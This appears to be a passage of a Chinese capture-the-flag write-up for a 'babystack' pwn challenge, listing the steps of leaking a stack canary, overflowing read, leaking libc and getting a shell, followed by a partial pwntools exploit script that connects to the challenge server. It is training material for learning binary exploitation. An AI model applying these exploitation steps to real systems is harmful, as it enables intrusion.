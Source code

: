 ![image-20240127172338486](../assets/img/old_imgs/image-20240127172338486.png)

1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
```